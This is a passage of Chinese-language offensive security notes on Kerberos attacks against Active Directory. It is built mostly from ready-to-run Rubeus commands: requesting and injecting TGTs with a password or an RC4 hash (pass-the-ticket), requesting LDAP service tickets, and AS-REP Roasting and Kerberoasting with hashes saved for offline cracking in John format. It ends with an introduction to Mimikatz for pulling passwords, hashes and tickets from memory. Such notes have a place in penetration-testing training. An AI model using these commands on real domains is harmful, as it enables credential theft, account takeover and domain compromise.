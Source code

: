 请求TGT保存为ticket.kirbi，并导入内存，如果不导出文件就是以base64格式打印  

```C
rubeus.exe asktgt /user:administrator /password:password /nowrap /ptt /outfile:ticket.kirbi
```

rubeus导入ticket，base64格式或者文件  

```C
rubeus.exe ptt:BASE64|xxx.kirbi
```

hash请求  

```C
rubeus.exe asktgt /user:administrator /rc4:asdasdasdasd /enctype:RC4 /nowrap /ptt /outfile:ticket.kirbi
```

### 申请ST  

asktgs模块，跟asktgt模块参数差不多，有以下不同：  

+ /ticket:BASE64 | /ticket:xxx.kirbi
+ /service:SPN1,SPN2

已经获得TGT之后，请求LDAP的ST,ticket可以用base64，也可以用文件  

```C
rubeus.exe asktgs /service:"ldap:/hostname.jevon.com" /nowrap /ptt /ticket:xxx.kirbi
```

### AS-REP Roasting  

AS-REP包中用户hash加密的Login Session Key以John能破解的格式保存  

```C
rubeus.exe asreproast /format:john /outfile:hash.txt
```

### Kerberoasting

原理在于先用LDAP查询域内具有SPN的账户，再发送TGS包，抓取返回的TGS-REP包，然后破解，下面是随机请求  

```C
rubeus.exe kerberoast /format:john /outfile:hash.txt
```

请求指定SPN的服务票据  

```C
rubeus.exe kerberoast /spn:SQLServer/hostname.jevon.com:1433/MSSQL /format:john /outfile:hash.txt
```

但是这获得的hash并不能直接破解，要在指定位置加上$23，后面细说，rubeus还可以进行委派攻击，也后面细说  

## Mimikatz  

这个工具用于从内存提取明文密码、密码hash、PIN码和Kerberos票据等。standard模块和kekeo差不多，其他模块最常用的是privilege、sekurlsa、kerbreos、lsadump、token、sid等  
